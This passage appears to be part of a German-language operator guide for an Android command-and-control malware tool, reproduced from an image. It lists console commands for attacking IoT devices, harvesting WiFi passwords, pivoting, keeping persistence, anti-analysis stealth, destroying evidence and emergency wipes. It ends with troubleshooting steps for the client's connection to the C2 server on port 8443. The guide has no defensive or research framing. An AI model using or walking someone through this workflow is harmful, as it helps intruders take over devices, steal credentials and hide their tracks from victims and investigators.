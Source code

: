 #### Geräte ausbeuten
```bash
> exploit-device 192.168.1.10    # IoT-Gerät angreifen
> harvest-credentials            # WiFi-Passwörter
> pivot-attack 192.168.1.20     # Pivot-Angriff
```

### 3.4 Persistenz sicherstellen

```bash
> persistence-status      # Status prüfen (sollte 98%+ sein)
> create-backup          # Backup-Payload erstellen
> test-survival          # Überlebensmechanismen testen
```

---

## 🛡️ Stealth & Opsec

### Tarnung maximieren
```bash
> advanced-hide          # Erweiterte Tarnung aktivieren
> anti-analysis         # Anti-Analyse-Maßnahmen
> evidence-destruction  # Spuren beseitigen
```

### Bei Erkennung
```bash
> lockdown-mode         # Alle Aktivitäten stoppen
> emergency-wipe        # Notfall-Datenlöschung
```

---

## 🔧 Troubleshooting

### Problem: Keine Verbindung zum Server

**Diagnose:**
```bash
# Server-Seite
netstat -tuln | grep 8443    # Port offen?
tail -f server.log           # Fehlermeldungen?

# Client-Seite (ADB)
adb logcat | grep C2Service  # Verbindungsfehler?
```

**Lösungen:**
1. ✅ Firewall-Regeln prüfen (Port 8443 TCP)
2. ✅ Server-IP in SecureConfig korrekt?
3. ✅ SSL-Zertifikate generiert?
4. ✅ Netzwerk erreichbar?
